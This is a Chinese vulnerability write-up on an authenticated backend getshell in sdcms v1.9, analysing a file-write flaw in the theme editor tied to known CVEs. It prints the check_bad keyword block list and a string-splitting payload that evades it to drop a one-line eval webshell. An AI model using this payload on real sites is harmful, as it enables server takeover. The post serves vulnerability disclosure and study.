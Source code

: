 

# sdcms v1.9 后台getshell - 先知社区

sdcms v1.9 后台getshell

- - -

\[TOC\]

# 1.前言

上集说到[sdcms v1.9最新版前台sql注入](https://xz.aliyun.com/t/6992 "sdcms v1.9最新版前台sql注入")，通过注入运气好能进后台的话，然后就是getshell了。然后看了看后台controller目录里的文件，找到了一处可以getshell的地方，其实这个漏洞非常简单，就是一处写文件的功能

这个不是0day了，找到后发现网上已经有师傅申请了cve，提交了cnvd。

cve编号：CVE-2019-9651  
cnvd链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927](https://www.cnvd.org.cn/flaw/show/CNVD-2019-07927)  
这个是针对v1.7 版本的

cve编号：CVE-2018-19520  
cnvd链接：[https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942](https://www.cnvd.org.cn/flaw/show/CNVD-2019-05942)  
这个是针对v1.6版本的

仔细搜一下这两个cve编号，漏洞其实就是一个漏洞，官方的修复就是一直增加关键字过滤，其实并没有什么用

# 2.漏洞分析

后台controller目录里有很多php文件都被加密了，看不懂源码，然后也有几个文件没用加密

我是直接全局搜索的file\_put\_contents(，最终发现在\\app\\admin\\controller\\themecontroller.php的162行左右：  
if(!APP\_DEMO) file\_put\_contents($root,$text);

他是在edit函数里，

```plain
public function edit()
    {
        if(IS_POST)
        {
            $dir=$this->decode(F('t0'));
            $dir=str_replace('..','',$dir);
            $root='theme/'.$dir;
            省略……
            $text=self::deal_text($_POST['t2']);
            $data=[[$text,'null','内容不能为空']];
            if(check_bad($text)>0)
            {
                $data=array_merge($data,[[(1>1),'other','请勿提交非法内容']]);
            }
            $v=new sdcms_verify($data);
            if($v->result())
            {
                if(strpos($root,'.php'))
                {
                    $text="<?php if(!defined('IN_SDCMS')) exit;?>".$text;
                }
                if(!APP_DEMO) file_put_contents($root,$text);
                $this->success('保存成功');
                $data="<?php\nif(!defined('IN_SDCMS')) exit;\nreturn ".var_export($name, true).";\n?>";
                if(!APP_DEMO) file_put_contents('theme/'.$theme.'/_note.php', $data);
            }
            else
            {
                $this->error($v->msg);
            }
            $this->add_log($this->msg);
        }
        else
        {
            省略……
        }
    }
```

$root仅看代码的话感觉有点复杂，还调用了decode函数，其实不用管，他就是你编辑的文件名称，网站后台会提供好变量t0

$data就是写的内容，经过check\_bad处理了

check\_bad在app/function.php的413行左右：

```plain
function check_bad($str)
{
    $num=preg_match_all("/(phpinfo|eval|file_put_contents|file_get_contents|passthru|exec|chroot|scandir|proc_open|delfolder|unlink|mkdir|fopen|fread|fwrite|fputs|tmpfile|flock|chmod|delete|assert|_post|_get|_request|_file|create_function|array_walk|preg_replace|cookie)/Ui",$str,$match);
    return $num?$num:0;
}
```

就是你写的内容不能有这么多字符串。其实这么多过滤并没有什么用，我看v1.7那个cve描述是说什么过滤不严，system可以用，其实完全没必要，把字符串拆开即可，让他生成个一句话木马

# 3.漏洞利用

先访问127.0.0.1/sdcms1.9/?m=admin&c=theme&a=index  
点这个管理模板  
就会看到一堆目录及文件，随便点一个php文件进去  
我这里点的是top.php，然后输入以下代码：

```plain
<?php
$a = 'file_p'.'ut_contents';
$data = '<?php ev'.'al($_PO'.'ST[1])?>';
$a("chonger.php",$data);
?>
```

[![](assets/1698897509-e3e56785ba1ebda1d07db26cfc89313c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191225184018-f17e57b4-2702-1.png)  
看吧，这不就没出现任何关键字……然后点下面的保存即可

然后访问一下主页，127.0.0.1/sdcms1.9/，他就会require到刚刚修改的文件top.php，一句话木马chonger.php就生成在网站根目录  
[![](assets/1698897509-08381fa567039e3463ccbcbdcf94a439.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191225184145-259f5c46-2703-1.png)

# 4.下集预告

目前正在审计UsualToolCMS，前台目前感觉过滤很严，不太好整……

后台倒是找到getshell了，用处不大，本来就是小众cms

加把劲再看看尽力把坑给填上，说有下集预告那就肯定有下集

漏洞肯定会是前台的，只有后台getshell没有前台的注入我都不会发的，不好玩

UsualToolCMS万一找不着的话，那就换个cms搞

等着吧……
